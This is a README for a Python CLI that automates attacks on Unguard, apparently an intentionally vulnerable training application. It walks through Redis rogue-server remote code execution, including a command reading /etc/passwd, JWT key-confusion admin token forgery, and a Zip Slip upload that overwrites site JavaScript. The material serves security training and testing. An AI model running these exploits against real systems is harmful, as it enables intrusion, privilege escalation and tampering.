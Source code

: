 # Unguard Exploits CLI

Small command line application written in Python that automates different attack scenarios for the Unguard application.

## Installation

Create and activate the virtual environment for the `unguard-exploit` package

```
python -m venv venv
source ./venv/bin/activate
pip install -r requirements.txt
pip install --editable .
```

Check out what you can do now
 
```
ug-exploit --help
```

## General Usage

Make sure to login first

```
ug-exploit login <USERNAME>
```

Next, send your payloads. Make sure to specify the Redis instance that is reachable from the frontend.
Within Docker or K8S, this should be `unguard-redis:6379`.

```
ug-exploit redis --redis-host unguard-redis:6379 .\redis_payloads\hackedflag.txt
```

## Remote Code Execution (RCE)

For this exploit to work, you need to first start a Redis rogue server.

This exploit (for Redis 4.x and 5.x) was inspired by [Redis Post-Exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).
The code was taken and adapted from [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server).

The rogue server acts as a fake Redis master host and can upload a shared library to a real Redis.

### Usage

#### Kubernetes Deployment

If you run Unguard inside Kubernetes it may be that your Redis instance can not access the local rogue server.
For that, build and run the following temporary container in your cluster.
Make sure to use the K8S Docker environment as explained in the root README.

```
docker build --tag redis-rogue-server .\redis_payloads\redis-rogue-server
kubectl run redis-rogue-server --rm -i --tty --expose --port 6666 \
    --image-pull-policy=IfNotPresent --image redis-rogue-server
```

It might be the case that you don't see proper console output.

#### Local Deployment

Build the `module.so` from the already linked git submodule from <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

```
git submodule init
git submodule update

cd ./redis_payloads/redis-rogue-server/RedisModules-ExecuteCommand

make
```

Move back to `./redis_payloads/redis-rogue-server` and start the server to listen on all interfaces on port `6666`

```
cd redis-rogue-server
python redis-rogue-server.py --lhost 0.0.0.0 --lport 6666
```

Inside the `./redis_payloads/rce.txt` change the `SLAVEOF` command so that it points to the ip address and port of your rogue server.
Then, run the RCE exploit, which makes our rogue server a slave and injects the `module.so` to `/tmp/exp.so`

```
ug-exploit redis --redis-host unguard-redis:6379 .\redis_payloads\rce.txt
```

You should see some output on your rogue server on success, and the exploit should already have created the file `/tmp/maliciousfile`

The compromised Redis instance can now execute arbitrary code like so

```
$ redis-cli
127.0.0.1:6379> system.exec cat${IFS}/etc/passwd
# will print /etc/passwd from Redis host
```

You don't need the rogue server anymore.

## JWT KeyConfusion Attack
For this exploit to work you need login via the login-command before.
Further details and a writeup about the vulnerability are available in the user-auth-service project.

### Usage
To forge a JWT token just provide the usertag which is a combination of username:userid.

!Attention! The username and userid have to match, otherwise the forged token will not have the right permissions.
```
$ ug-exploit forge-token admin:1
```

Now you can either use ug-exploit with the forged-user(logged in automatically) or use the forged token, which is printed to the command-line manually.

## Zip Slip
All you need for a Zip Slip attack is an archive with special renamed files. 
For example a file called ```../../file.exe``` will break out of the target folder (which is also known as ```path traversal```) and may overwrite existing files.  
The archives at ```/exploits/tool/zipslip_payloads``` already holds such path traversal filenames.
Further details and a writeup about the vulnerability (and how to make such an archive) are available in under ```/exploit/writeups/zipslip```.

### Usage
For the exploit you need a user with the AD_MANAGER Role. Therefore, the user "admanager" will be created at unguard per default. Just log in as admanager:
```
vg-exploit login admanager  
```
Afterwards, you are permitted to use the ads-upload command for uploading arbitrary zip archives. With that you just have to upload the exploit-archive:
```
vg-exploit ads-upload --archive_path ./zipslip_payloads/exploit-ads.zip
```

The `exploit-ads.zip` archive will overwrite the two bird ads with images of pigeons and also overwrite a client-facing JavaScript file. 
The new JS file will cause an alert when accessing any ad.  
Due to Browser caching a hard refresh of the page may be necessary to see the new images

To revert the server back to the original version just upload the original-ads.zip:
```
vg-exploit ads-upload --archive_path ./zipslip_payloads/original-ads.zip
```


